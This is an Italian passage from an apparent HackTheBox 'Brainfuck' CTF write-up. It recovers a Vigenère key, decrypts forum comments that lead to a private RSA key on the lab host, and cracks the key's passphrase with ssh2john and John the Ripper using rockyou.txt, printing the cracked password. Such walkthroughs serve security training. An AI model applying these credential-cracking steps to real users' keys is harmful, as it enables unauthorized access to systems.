 ```text

```

Il risultato ottenuto è il seguente:

```text
BRAINFUCKMYBRAINFUCKMYBRAINFU
```

Siccome il cifrario usa una parola e la ripete sulla base della lunghezza del plaintext, è possibile dedurre che la chiave sia _fuckmybrain_.

Utilizzando un semplice  [tool](https://www.boxentriq.com/code-breaking/vigenere-cipher) online è possibile decifrare il contenuto dei commenti del forum; quello più interessante è di sicuro il seguente:

```text
There you go you stupid fuck, I hope you remember your key password because I dont :)
https://10.10.10.17/8ba5aa10e915218697d1c658cdee0bb8/orestis/id_rsa
```

Da questo link si ottenere la chiave RSA dell'utente orestis.

### 4) SSH Brute-Force

Prima di utilizzare John the Ripper per tentare di eseguire il crack della password, converto il l'RSA nel formato adatto utilizzando lo script ssh2jhon.py

```text
python /usr/share/ssh2john.py id_rsa > ssh-key
```

Successivamente, proseguo con il crack della password:

```text
john ssh-key --wordlist=/usr/share/wordlists/rockyou.txt
```

Il risultato ottenuto è il seguente:

```text
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
3poulakia!       (/root/Desktop/htb/brainfuck/id_rsa)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:12 DONE (2019-12-26 16:53) 0.08223g/s 1179Kp/s 1179Kc/s 1179KC/sa6_123..*7¡Vamos!
Session completed
```

**Una volta ottenuta la password, cambio i permessi all'RSA:

```text
chmod 600 id_rsa
```
